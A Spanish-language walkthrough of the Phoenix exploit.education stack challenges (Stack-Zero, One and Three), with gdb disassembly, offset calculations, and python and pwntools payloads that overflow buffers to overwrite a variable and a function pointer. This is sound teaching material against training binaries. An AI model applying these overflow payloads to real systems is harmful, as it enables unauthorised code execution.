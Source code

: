 
En este post nos vamos a meter con los retos de "phoenix" de exploit education, a diferencia de protostar, hablamos de 64 bits, el estandar actual.

## Stack-Zero

El stack Zero como reto inicial, no porpone ninguna dificultad, ya que simplemente se trata de desbordar el buffer metiendole demasaida "basura"
al programa.

Para profundizar más en el lenguaje a bajo nivel, bamos a desensamblar este bianrio. Vamo a analizarlo por partes.

```
(gdb) disas main
Dump of assembler code for function main:
  ----------------------------------------------------------------------
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60   # Preparar una pila de 0x60 de tamaño, desde rsp
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
  ----------------------------------------------------------------------
   0x00000000004005ec <+15>:    mov    edi,0x400680 
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt> 
[ #### (gdb) x/s 0x400680   # Metemos el edi el argumnto de puts, segun calling conventions.    ]
[ 0x400680:       "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"  ]
  ---------------------------------------------------------------------- 
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
[ #### (gdb) x/x $rbp-0x10    # O sea aqui tenemos la famosa varaible "changme" que hay que rellenar  ]
[ 0x7fffffffe520: 0x00                                                                                ]
  ---------------------------------------------------------------------- 
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]                 
   0x0000000000400601 <+36>:    mov    rdi,rax                        
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>            
[ #### (gdb) x/s $rbp-0x50    # Con las calling conventions metemos en rdi el argumento de gets, o sea nuestro input.  ]
[ 0x7fffffffe4e0: 'A' <repeats 11 times>                                                                               ]                                   
  ---------------------------------------------------------------------- 
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax       # Se ve si eax (changeme = rbp+0x10) ha sido modificado o no
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0      # Por aqui vamos si hemos hecho bien.
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
[ #### (gdb) x/s 0x4006d0                                                 ]
[ 0x4006d0:       "Well done, the 'changeme' variable has been changed!"  ]
[ (gdb) x/x $rbp-0x10     # La varaible changme que hay que modificar     ]
[ 0x7fffffffe520: 0x00                                                    ]

  ---------------------------------------------------------------------- 
   0x000000000040061c <+63>:    mov    edi,0x400708    
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
[ #### (gdb) x/s 0x400708                                                                    ]
[ 0x400708:       "Uh oh, 'changeme' has not yet been changed. Would you like to try again?" ]
  ----------------------------------------------------------------------  
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
   
(gdb) b *0x000000000040062b
(gdb) run
AAAAAAAAAAA
(gdb) x/40x $rsp
0x7fffffffe4d0: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe4e0: 0x41414141      0x41414141      0x00414141      0x00000000
0x7fffffffe4f0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe500: 0x00000000      0x00000000      0xffffe588      0x00007fff
0x7fffffffe510: 0x00000001      0x00000000      0xffffe598      0x00007fff
0x7fffffffe520: 0x00000000      0x00000000      0x00000000      0x00000000
```
O sea que tanto analizando el ensamblador como la pila dicen que el input empieza en 0x7fffffffe4e0 y la variable a escribir esta en 0x7fffffffe520
```
(gdb) p/d 0x7fffffffe520 - 0x7fffffffe4e0 
$1 = 64
```
Buffer de 64 bits

```console
[user@phoenix]:$   python -c "print 'A'* 64" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[user@phoenix]:$ python -c "print 'A'* 70" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

-----------------------------------------------------------------------------------------

## Stack - One

Aquí hay que sobreescribir la varaible pero con un valor en conreto, lo desensamble como arriba: 
```console
   mov edi,0x400750 ;call 0x4004c0 <puts@plt>
            puts("Welcome to phoenix/stack-one, brought to you by https://exploit.education")

   mov esi,0x4007a0; call  0x4004d0 <errx@plt>
            puts("specify an argument, to be copied into the \"buffer\"")

   lea rax,[rbp-0x50]; mov rdi,rax; call   0x4004a0 <strcpy@plt>
            char buffer (0x50);
            strcpy(buffer, input);   <- [rbp-0x50] 0x7fffffffe460:

   mov eax,DWORD PTR [rbp-0x10]; cmp eax,0x496c5962; jne 0x4006d7 <main+106>
            if buffer !=  0x496c5962: <- [rbp-0x10] 0x7fffffffe4a0
        
   mov edi,0x4007d8; call 0x4004c0 <puts@plt>
            puts("Well done, you have successfully set changeme to the correct value")
                 
   mov edi,0x400820; call   0x4004b0 <printf@plt>
            puts("Getting closer! changeme is currently \"\", we want 0x496c5962\n")
            
        (gdb) p/d 0x7fffffffe4a0 - 0x7fffffffe460 -> 64

[user@phoenix]:$ ./stack-one $(python -c "print 'A'* 64 + '\x62\x59\x6c\x49'") 
        Well done, you have successfully set changeme to the correct value
```
-----------------------------------------------------------------------------------------

## Stack - Three

Aqui hay un buffer de 64 bytes seguido por un puntero de función [Aqui](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Stack.md#sobreescribir-un-puntero-de-instruccion) lo explico con detalle.

```console
[user@phoenix]:$ objdump -d ./stack-three | grep "^0"
...
000000000040069d <complete_level>:
...
```

El aunto es que tanto al ponerlo en oneliner o exploit no da buenos resultados, metiendo una "0xa" donde no debe. 

```console
[user@phoenix]:$ python -c "print 'A' * 64 + '\x9d\x06\x40\x00'" | ./stack-three 
calling function pointer @ 0xa0040069d; Segmentation fault
```
```python
from struct import pack
payload = 'A' * 64
payload += pack("I", 0x40069d)
print(payload)
```

Pero hay otro módulo llamado "pwntools" que está pensado parala explotación de bianrios (entre otras)
```python
from pwn import *
payload = 'A' * 64
payload += p64(0x40069d)
print(payload)
```
```console
[user@phoenix]:$ python /tmp/exploit.py | ./stack-three 
calling function pointer @ 0x40069d; Congratulations, you've finished phoenix/stack-three :-) Well done!
```










